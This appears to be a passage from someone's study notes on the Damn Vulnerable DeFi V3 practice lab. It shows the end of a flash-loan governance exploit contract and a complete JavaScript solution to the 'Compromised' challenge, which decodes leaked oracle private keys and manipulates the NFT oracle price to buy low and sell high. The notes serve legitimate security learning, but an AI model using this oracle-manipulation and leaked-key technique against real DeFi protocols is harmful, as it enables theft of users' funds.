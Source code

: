 ```solidity
        uint cnt = governance.getActionCounter();
        require(cnt==2,"Failed Counter");
        token.approve(address(pool),_amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");

    }
    function execute() public{
        governance.executeAction(1);
    }

}
```

# 7. Compromised

- Read the contract for at least 3 hours and after that found out the answer was in the problem statement where a code was provided.

![Untitled](Damn%20Vulnerable%20Defi%20V3%20Learnings%207135a5ed24664955b7a010870f64e317/Untitled.png)

```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        let string,key1,key2,info;
        // converted hex to utf-8 and then encode utf-8 using base64 to get the private key to source addresses
        info = "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35"
        string = Buffer.from(info.split(" ").join(""),"hex").toString("utf-8");
        key1 = Buffer.from(string,"base64").toString("utf-8");
        console.log(key1);

        info = "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34"
        string = Buffer.from(info.split(" ").join(""),"hex").toString("utf-8");
        key2 = Buffer.from(string,"base64").toString("utf-8");
        console.log(key2);

        // create signer for malicious oracles and post new price using function postPrice()
        const NEW_PRICE = 1n * 10n ** 16n
        const signer1 = new ethers.Wallet(key1,ethers.provider);
        await oracle.connect(signer1).postPrice("DVNFT",NEW_PRICE);
        const signer2 = new ethers.Wallet(key2,ethers.provider);
        await oracle.connect(signer2).postPrice("DVNFT",NEW_PRICE);

        await exchange.connect(player).buyOne({value:NEW_PRICE});

        await oracle.connect(signer1).postPrice("DVNFT",INITIAL_NFT_PRICE+NEW_PRICE);
        await oracle.connect(signer2).postPrice("DVNFT",INITIAL_NFT_PRICE+NEW_PRICE);

        await nftToken.connect(player).approve(exchange.address,0);
        // now we sell as we have increased the price of DVNFT
        await exchange.connect(player).sellOne(0);

        // reset back to original price
        await oracle.connect(signer1).postPrice("DVNFT",INITIAL_NFT_PRICE);
        await oracle.connect(signer2).postPrice("DVNFT",INITIAL_NFT_PRICE);
    });
```
